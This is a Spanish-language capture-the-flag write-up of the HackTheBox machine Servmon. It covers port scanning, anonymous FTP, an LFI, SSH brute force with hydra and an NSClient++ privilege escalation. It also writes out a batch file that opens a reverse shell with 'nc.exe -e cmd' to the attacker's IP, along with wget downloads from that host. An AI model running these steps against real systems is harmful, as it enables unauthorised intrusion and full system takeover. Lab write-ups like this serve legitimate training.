 ```yaml
---
title: HackTheBox - Servmon
author: cotes
date: 2023-09-12 17:51:00 +0800
categories: [Writeup, HackTheBox, Easy]
tags: [Linux, 'Information Leakeage', 'RCE Webmin (CVE-2019-12840)']
math: true
mermaid: true
image:
  path: /assets/images/HTB/Easy/Servmon/logo.png
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
  alt: Servmon Machine Logo
---
```


### Fase de Reconocimiento 🧣

a. Enumeramos los puertos que están abiertos.

* **`nmap -p- -sS -Pn -n <IP> -oG puertos`**

    ![](/assets/images/HTB/Easy/Servmon/01-ports.png)

b. Vemos las versiones de los servicios que se están ejecutando en los puertos.

* **`nmap -p21,80 -sCV <IP> -oN versiones`**

    ![](/assets/images/HTB/Easy/Servmon/02-versions.png)

* Puntos principales:
    + [x] Podemos acceder de forma anónima al servicio FTP.
    + [x] Tenemos dos sitios web: **HTTP - 80 | HTTPS - 8443**
    + [x] El servicio SSH se encuentra habilitado

Inspeccionamos el servicio **FTP** en buscar de cualquier información y la descargamos

```bash
❯  ftp 10.10.10.184
Name (10.10.10.184:kali): anonymous
ftp> dir
02-28-22  07:35PM       <DIR>          Users
ftp> cd Users
ftp> dir
02-28-22  07:36PM       <DIR>          Nadine
02-28-22  07:37PM       <DIR>          Nathan
ftp> cd Nadine
02-28-22  07:36PM                  168 Confidential.txt
ftp> get Confidential.txt
ftp> exit

❯ cat Confidential.txt

Nathan,
I left your Passwords.txt file on your Desktop.  Please remove this once you have edited it yourself and place it back into the secure folder.
Regards
Nadine
```

Aquí nos mencionan que existe un archivo **passwords.txt** en el escritorio del usuario nathan.

c. Al buscar por vulnerabilidades del servicio **HTTP** llegamos a un [LFI](https://www.exploit-db.com/exploits/48311)

![](/assets/images/HTB/Easy/Servmon/03-lfi.png)

Una vez obtenemos el fichero antes mencionado, hacemos fuerza bruta en el servicio **SSH** con hydra a los dos usuarios (nathan y nadine)

```bash
❯ hydra -L users.txt -P passwords.txt ssh://10.10.10.184 -t 4

[22][ssh] host: 10.10.10.184   login: nadine   password: L1k3B1gBut7s@W0rk
```

### Escalada de Privilegios 💹

a. Al enumerar el sistema, encontramos el directorio 'C:\Program Files\NSClient++' y si buscamos vulnerabilidades asociadas, encontramos una para [escalación de privilegios](https://www.exploit-db.com/exploits/46802)

Aquí usan el servicio **https** del puerto `8443`, y para llevar acabo este exploit debemos tener en cuenta múltiples puntos

1. Obtenemos la contraseña actual

    ```bash
    nadine@SERVMON C:\Program Files\NSClient++>.\nscp web -- password --display
    Current password: ew2x6SsGTxjRwXOT
    ```

2. De primeras nos seremos capaces de acceder al servicio **NSClient++** 

    ![](/assets/images/HTB/Easy/Servmon/04-error.png)

    > Para solucionar esto debemos realizar Local Port Forwarding: `sshpass -p 'L1k3B1gBut7s@W0rk' ssh nadine@<IP Servmon> -L 8443:127.0.0.1:8443`
    {: .prompt-tip }


3. Ahora, debemos descargarnos [nc](https://github.com/int0x33/nc.exe/blob/master/nc64.exe) y creamos un fichero .bat para entablar una reverse shell

    ```bat
    @echo off
    C:\temp\nc.exe -e cmd <tun0 IP> 443
    ```

    * Transferimos estos ficheros al directorio **`C:\temp`**

        ```cmd
        ❯ python -m http.server 80
        -----------------------------------------------------------------
        nadine@SERVMON C:\>mkdir temp
        nadine@SERVMON C:\temp>powershell
        PS C:\temp> wget http://<tun0 IP>/nc.exe -OutFile "./nc.exe"
        PS C:\temp> wget http://<tun0 IP>/test.bat -OutFile "./test.bat"
        ```

4. Nos autenticamos en el servicio NSClient++ y lo configuramos para ejecutar el script **test.bat**

    ![](/assets/images/HTB/Easy/Servmon/05-script.png)

    * Nos ponemos en escucha con **nc**, reiniciamos NSClient++ y luego damos clic en el apartado `Queries`

> En caso de no recibir la reverse shell reiniciamos la **Máquina Servmon**
{: .prompt-warning }

Después de todo este proceso recibimos la reverse shell

```bash
❯ nc -lvnp 443                                                                                            
connect to [10.10.14.18] from (UNKNOWN) [10.10.10.184] 50986
Microsoft Windows [Version 10.0.17763.864]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Program Files\NSClient++>whoami
nt authority\system
```